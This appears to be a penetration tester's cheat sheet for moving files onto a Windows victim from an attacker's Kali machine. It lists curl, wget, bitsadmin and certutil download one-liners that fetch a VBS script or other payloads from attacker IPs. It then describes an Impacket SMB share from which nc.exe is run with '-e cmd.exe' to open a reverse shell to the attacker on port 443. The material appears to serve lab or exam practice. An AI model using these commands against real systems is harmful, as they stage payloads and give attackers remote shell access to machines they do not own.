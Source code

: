 
### Method 2: Using `curl` (Available in Windows 10 and newer)
If `curl` is available on your system, you can use this command:
```cmd
curl -o C:\temp\vv.vbs http://10.10.10.3/vv.vbs
```
### Method 3: Using wget (if available)
If `wget` is installed, you can use it directly:
``` cmd
wget http://example.com/file.exe -O C:\path\to\save\file.exe
```


---
**CMD**
--- ---- ---- ------ -----

### Method 4: Using `bitsadmin` (Available in Windows by default)
`bitsadmin` can download files but may be deprecated on newer Windows versions:
```cmd
bitsadmin /transfer myDownloadJob /download /priority normal http://10.10.10.3/vv.vbs C:\temp\vv.vbs
```

### Method 5: Using `certutil` (Typically available on Windows)
`certutil` can also be used to download files over HTTP:
```cmd
certutil -urlcache -split -f http://<Kali-IP>/file C:\Temp\file
```

Each of these methods will download the specified file and place it in `C:\temp\`. Note that **admin privileges** may be required for certain commands, especially when accessing protected directories.

### Method 6: Using `smbserver` (In case i cannot do download so i can execute from SMB shared file directly)
#### On the Attacker Machine (Kali Linux):
1. **Create a Directory to Act as the Share**:
   ```bash
   mkdir /tmp/share
   ```
Put nc.exe in folder
1. **Start the SMB Server with Impacket**:
   Run the `smbserver.py` script to create an SMB server on Kali Linux:
   ```bash
   python3 /usr/share/doc/python3-impacket/examples/smbserver.py -smb2support public /tmp/share
   ```
#### On the Victim Machine (Windows):
Example downloading nc.exe and execute it:
   ```cmd
   cmd.exe /c //192.168.45.211/public/nc.exe -e cmd.exe 192.168.45.211 443
   ```

---